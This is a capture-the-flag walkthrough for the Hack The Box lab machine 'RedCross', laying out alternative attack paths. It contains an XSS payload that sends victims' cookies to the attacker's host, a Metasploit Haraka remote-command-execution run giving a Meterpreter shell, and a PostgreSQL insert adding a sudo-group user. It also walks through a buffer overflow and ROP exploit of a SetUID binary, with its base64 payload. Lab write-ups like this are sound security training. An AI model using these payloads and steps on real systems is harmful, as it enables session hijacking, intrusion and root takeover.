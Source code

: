 # Alternative way to exploit RedCross

## Different ways to exploit the Web Services

Instead of exploiting the **SQL Injection vulnerability**, there are more ways to to exploit the web services on port 443.

### Cross-Site-Scripting (XSS) in Contact Form

The contact form on _intra.redcross.htb/?page=contact_ is used to request access to the intranet.
By guessing that this has to be processed by someone, we can try to abuse this functionality with a **Cross-Site-Scripting vulnerability**.  

Lets start a listener on our local IP and port 80 to get requests and send JavaScript with the form:
```
<script>document.write('<img src="http://10.10.14.6/test.gif?cookie=' + document.cookie + '" />')</script>
```

The first two fields, blocked requests and alerted, that someone is doing something nasty, but the third form field allowed the request and after a while the listener got a response back:
```
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:40500.
GET /test.gif?cookie=PHPSESSID=4dcd7ecnqq39cgj492nk84p2k0;%20LANG=EN_US;%20SINCE=1612024348;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1
```

This response contains a session cookie and it tells that it comes from the domain _admin_ that is the subdomain _admin.redcross.htb_
By replacing the current _PHPSESSID cookie_ with _"4dcd7ecnqq39cgj492nk84p2k0"_, we get logged in and have access the to the admin panel.

### Exploiting Haraka on admin.redcross.htb

Instead of using the **Command Injection vulnerability** there is another way to get a shell on the box.
The feature _Network Access_ allows to whitelist IP addresses and after sending mine, it shows that it runs `iptables` in the background:
```
DEBUG: All checks passed... Executing iptables Network access granted to 10.10.14.6 Network access granted to 10.10.14.6
```

After whitelisting my own IP, another port scan with **Nmap** will show new results:
```
nmap -p- 10.10.10.113
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
1025/tcp open  NFS-or-IIS
5432/tcp open  postgresql
```

Enumerating the service on port 1025 with `ncat`:
```
nc -v 10.10.10.113 1025

220 redcross ESMTP Haraka 2.8.8 ready
```

It runs [Haraka](https://haraka.github.io/) version 2.8.8 which is an open source SMTP server written in Node.js.
Searching for vulnerabilities:
```
searchsploit haraka

Haraka < 2.8.9 - Remote Command Execution
```

There is also a **Metasploit module** that can be used:
```
msf6 > use exploit/linux/smtp/haraka

msf6 exploit(linux/smtp/haraka) > set LPORT 9002
msf6 exploit(linux/smtp/haraka) > set LHOST tun0

msf6 exploit(linux/smtp/haraka) > set SRVHOST 10.10.14.6
msf6 exploit(linux/smtp/haraka) > set SRVPORT 9001
msf6 exploit(linux/smtp/haraka) > set rhost 10.10.10.113
msf6 exploit(linux/smtp/haraka) > set rport 1025
msf6 exploit(linux/smtp/haraka) > set email_from tricia@redcross.htb
msf6 exploit(linux/smtp/haraka) > set email_to penelope@redcross.htb

msf6 exploit(linux/smtp/haraka) > exploit
```

After running the exploit and waiting for a while, a **Meterpreter session** starts with the privileges of _penelope_.

## Privilege Escalation

### Add user to sudo group

Instead of searching for credentials in the configuration files in _/etc_ for a high-privileged user in the **PostgreSQL database**, it is possible to create a new user and put the new user via the **PostgreSQL** in the _sudo group_.
```
psql -h 127.0.0.1 -U unixusrmgr unix
```

Creating a root user with the GID 27 which is the _sudo group_:
```
INSERT INTO passwd_table (username, passwd, gid, homedir) values ('sudouser', '$1$61vWy0S8$fDRliAv0Lnr6lf.z9qD1j1', 27, '/');
```

Switching user to _sudouser_:
```
su - sudouser
```

Now it is possible to switch user to root as the created user is in the _sudo group_:
```
sudo su
```

### Buffer Overflow of iptctl

Instead of the **PostgreSQL** ways, there is a binary in _/opt/iptctl_ with the **SetUID bit** set and vulnerable to **Buffer Overflow**.
After getting on the web panel and creating a user to SSH into the box, there can be the source code found in _/home/public/src/iptctl.c_.

In the source code it shows that it has an interactive mode when using the _"-i"_ parameter and that is were the vulnerability is.
I will copy the binary to my local box to analyze it further.

When it gets too many characters as input, it will result in a **Segmentation Fault** in this mode:
```
./iptctl -i

Entering interactive mode
Action(allow|restrict|show): showAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
IP address: 1.2.3.4
Segmentation fault
```

Lets execute it with `gdb` and see where the buffer gets overwritten by creating a unique pattern with 64 characters:
```
pattern_create 64

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
```
```
set args -i

run

Starting program: ./iptctl -i
Entering interactive mode
Action(allow|restrict|show): showaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
IP address: 1.2.3.4
```

The overflow happens at _"aaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa"_ and the offset of this pattern is at 30:
```
pattern offset aaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa

[+] Found at offset 30 (big-endian search)
```

To write exploit code, there is some more information needed.

Addresses of functions that can be used:
```
objdump -D -j .plt iptctl | grep \@plt
```
```
00000000004006e0 <strncpy@plt>:
00000000004006f0 <strcpy@plt>:
0000000000400700 <puts@plt>:
0000000000400710 <strlen@plt>:
0000000000400720 <printf@plt>:
0000000000400730 <fgets@plt>:
0000000000400740 <inet_pton@plt>:
0000000000400750 <fflush@plt>:
0000000000400760 <execvp@plt>:
0000000000400770 <exit@plt>:
0000000000400780 <setuid@plt>:
0000000000400790 <fork@plt>:
00000000004007a0 <strstr@plt>:
```

Getting address of _/bin/sh_ with `gdb`:
```
gef> search-pattern sh

0x40046e - 0x400470 --> "sh"
```

Getting return addresses of _rdi_ and _rsi_ with **Radare2**:
```
/R pop rdi

0x00400de3    5f    pop rdi
```
```
/R pop rsi

0x00400de1    5e    pop rsi
```

After getting all of those addresses, exploit code can be created and the Python script _redcross_bof.py_ can be found in this repository.
When running the script, it creates a payload, that has to be passed to the binary:
```
python redcross_bof.py > payload.txt
```

Bringing the payload to the box:
```
base64 -w 0 payload.txt

echo c2hvd0FBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQeMNQAAAAAAAAAAAAAAAAACAB0AAAAAAAOMNQAAAAAAAbgRAAAAAAADhDUAAAAAAAAAAAAAAAAAAAAAAAAAAAABgB0AAAAAAAAoxLjIuMy40Cg== > payload.b64

base64 -d payload.b64 > payload.txt
```

Executing _iptctl_ with the payload:
```
(cat /dev/shm/payload.txt; cat) | ./iptctl -i
```

There will be no output, but commands work and `id` shows that we became root!
